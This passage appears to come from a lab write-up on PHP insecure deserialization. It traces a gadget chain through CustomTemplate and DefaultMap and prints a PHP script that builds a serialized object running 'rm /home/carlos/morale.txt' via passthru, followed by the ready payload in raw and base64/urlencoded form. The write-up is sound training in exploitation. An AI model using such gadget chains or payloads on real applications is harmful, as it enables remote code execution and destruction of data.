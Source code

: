        `$this->default_desc_type = 'rm /home/carlos/morale.txt';`
        
    - If we following the code, we arrive at the last part in `Product` class constructor that gets the above `$this->desc` and `$this->default_desc_type` values as parameters and assign them to `$this->desc` of its own:
        
        ```php
        public function __construct($default_desc_type, $desc) {
            $this->desc = $desc->$default_desc_type;
        }
        ```
        
        which is exactly when we want and is the same as the third line of our code above: `$test->$command`; which results in our arbitrary code being executed.
        
    - I have prepared a php file for creating the final payload with just the parts of the leaked code that are necessary for creating the payload:
        
        ```php
        <?php
        
        class CustomTemplate {
            private $default_desc_type;
            private $desc;
        
            public function __construct() {
                $this->desc = new DefaultMap('passthru');
                $this->default_desc_type = 'rm /home/carlos/morale.txt';
            }
        }
        
        class DefaultMap {
            private $callback;
        
            public function __construct($callback) {
                $this->callback = $callback;
            }
        }
        
        $test = new CustomTemplate();
        $ser = serialize($test);
        echo($ser . "\n");
        echo("===================================================\n");
        echo("base64 endcoded then urlencoded: \n");
        echo(urlencode(base64_encode($ser)) . "\n");
        
        ?>
        ```
        
        and output of this code is:
        
        ```php
        O:14:"CustomTemplate":2:{s:33:"CustomTemplatedefault_desc_type";s:26:"rm /home/carlos/morale.txt";s:20:"CustomTemplatedesc";O:10:"DefaultMap":1:{s:20:"DefaultMapcallback";s:8:"passthru";}}
        ===================================================
        base64 endcoded then urlencoded:
        TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MzM6IgBDdXN0b21UZW1wbGF0ZQBkZWZhdWx0X2Rlc2NfdHlwZSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO3M6MjA6IgBDdXN0b21UZW1wbGF0ZQBkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjIwOiIARGVmYXVsdE1hcABjYWxsYmFjayI7czo4OiJwYXNzdGhydSI7fX0%3D
        ```
        